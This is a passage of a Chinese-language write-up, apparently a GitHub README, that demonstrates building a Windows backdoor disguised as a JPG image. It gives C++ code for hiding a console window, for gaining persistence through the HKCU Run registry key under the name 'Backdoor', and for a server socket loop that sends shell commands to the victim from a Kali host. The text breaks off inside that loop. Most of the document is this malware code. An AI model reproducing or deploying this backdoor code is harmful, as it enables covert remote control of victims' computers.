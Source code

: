 (在DEMO中我們偽裝成JPG)

各種角度上來看偽造或注入到受信賴的應用程式會是更好的選項，但我目前作不出來。

## 連線

選擇一個閒置的port，將預先取得的ip跟port封進client端。在兩端建立socket並雙向傳遞資料。

(然而這一步無可避免的需要通過受害者的防火牆，在這份demo只能依賴受害者本身防火牆設定的較鬆散，能夠允許在我們想要的port進行連線)

## 執行與隱蔽

我們偷偷創立一個console，並將其隱藏(但仍在工作管理員可見)

```cpp
AllocConsole(); //產生一個新的console
stealth = FindWindowA("ConsoleWindowClass", NULL); //檢索 1 類別名 2 窗口名
ShowWindow(stealth, 0); //設置nCmdShow為0 隱藏視窗並啟動另一視窗)
```

## 持久化

登錄HEKY到相應的目錄，以實現開機自啟，在Win7下這個目錄是

```cpp
Software\Microsoft\Windows\CurrentVersion\Run
```

而這是在WIN中登錄的方式

```cpp
TCHAR s2Path[MAX_PATH]; 
DWORD pathLen = 0;
pathLen = GetModuleFileName(NULL, s2Path, MAX_PATH); //獲取我們的路徑
HKEY NewVal; //創立一個新的KEY
RegOpenKey(HKEY_CURRENT_USER, TEXT("Software\\Microsoft\\Windows\\CurrentVersion\\Run") //打開開機自啟動的機碼
RegSetValueEx(NewVal, TEXT("Backdoor"), 0, REG_SZ, (LPBYTE)s2Path, pathLenInBytes) //加入
```

## 監聽與傳輸

在兩端建立對接的socket

```cpp
//server端
sock = socket(AF_INET, SOCK_STREAM, 0); 
if (setsockopt(sock, SOL_SOCKET, SO_REUSEADDR, (const char*)&optval, sizeof(optval)) < 0) {  //設定socket
	printf("Error Setting TCP Socket options!\n");
	return 1;
}
server_address.sin_family = AF_INET;
server_address.sin_addr.s_addr = inet_addr("192.168.56.99"); //kali ip
server_address.sin_port = htons(50008); //port
bind(sock, (struct sockaddr*) &server_address, sizeof(server_address));
listen(sock, 5); //監聽這個socket

//以下是發送並接收我們要的命令
while (1) { 
	bzero(&buffer, sizeof(buffer));
	bzero(&response, sizeof(response));
	printf("* Shell#%s~$: ", inet_ntoa(client_address.sin_addr));
	fgets(buffer, sizeof(buffer), stdin);
	strtok(buffer, "\n"); //分解串
	write(client_socket, buffer, sizeof(buffer));
	if (strncmp("q", buffer, 1) == 0) { //離開
```